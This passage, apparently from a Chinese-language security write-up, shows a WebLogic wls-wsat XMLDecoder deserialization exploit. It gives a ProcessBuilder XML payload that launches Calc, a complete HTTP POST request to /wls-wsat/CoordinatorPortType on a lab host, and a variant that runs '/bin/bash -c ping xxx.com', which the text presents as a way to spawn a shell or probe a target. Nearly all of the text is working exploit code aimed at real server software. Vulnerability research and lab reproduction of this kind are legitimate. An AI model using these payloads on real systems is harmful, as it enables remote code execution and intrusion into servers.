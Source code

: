 ```xml  
 &lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;    
  &lt;array class=&#34;java.lang.String&#34; length=&#34;1&#34;&gt;    
   &lt;void index=&#34;0&#34;&gt;    
    &lt;string&gt;Calc&lt;/string&gt;    
   &lt;/void&gt;  &lt;/array&gt;  &lt;void method=&#34;start&#34;/&gt;&lt;/void&gt;    
&lt;/java&gt;  
```  
POST包整体如下  
```http  
POST /wls-wsat/CoordinatorPortType HTTP/1.1  
Host: 10.211.55.26:7001  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36  
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate, br  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: text/xml  
Content-Length: 482  
  
&lt;soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;&gt; &lt;soapenv:Header&gt;  
&lt;work:WorkContext xmlns:work=&#34;http://bea.com/2004/06/soap/workarea/&#34;&gt;  
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;  
&lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;  
&lt;array class=&#34;java.lang.String&#34; length=&#34;1&#34;&gt;  
&lt;void index=&#34;0&#34;&gt;  
&lt;string&gt;Calc&lt;/string&gt;  
&lt;/void&gt;  
&lt;/array&gt;  
&lt;void method=&#34;start&#34;/&gt;&lt;/void&gt;  
&lt;/java&gt;  
&lt;/work:WorkContext&gt;  
&lt;/soapenv:Header&gt;  
&lt;soapenv:Body/&gt;  
&lt;/soapenv:Envelope&gt;  
```  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202409031607572.png)
如果是弹shell或者ping命令探测  
```xml  
&lt;soapenv:Envelope xmlns:soapenv=&#34;http://schemas.xmlsoap.org/soap/envelope/&#34;&gt; &lt;soapenv:Header&gt;      
&lt;work:WorkContext xmlns:work=&#34;http://bea.com/2004/06/soap/workarea/&#34;&gt;      
&lt;java version=&#34;1.4.0&#34; class=&#34;java.beans.XMLDecoder&#34;&gt;      
&lt;void class=&#34;java.lang.ProcessBuilder&#34;&gt;      
&lt;array class=&#34;java.lang.String&#34; length=&#34;3&#34;&gt;      
&lt;void index=&#34;0&#34;&gt;      
&lt;string&gt;/bin/bash&lt;/string&gt;      
&lt;/void&gt;      
&lt;void index=&#34;1&#34;&gt;      
&lt;string&gt;-c&lt;/string&gt;      
&lt;/void&gt;      
&lt;void index=&#34;2&#34;&gt;      
&lt;string&gt;ping xxx.com&lt;/string&gt;      
&lt;/void&gt;      
&lt;/array&gt;      
&lt;void method=&#34;start&#34;/&gt;&lt;/void&gt;      
&lt;/java&gt;      
&lt;/work:WorkContext&gt;      
&lt;/soapenv:Header&gt;      
```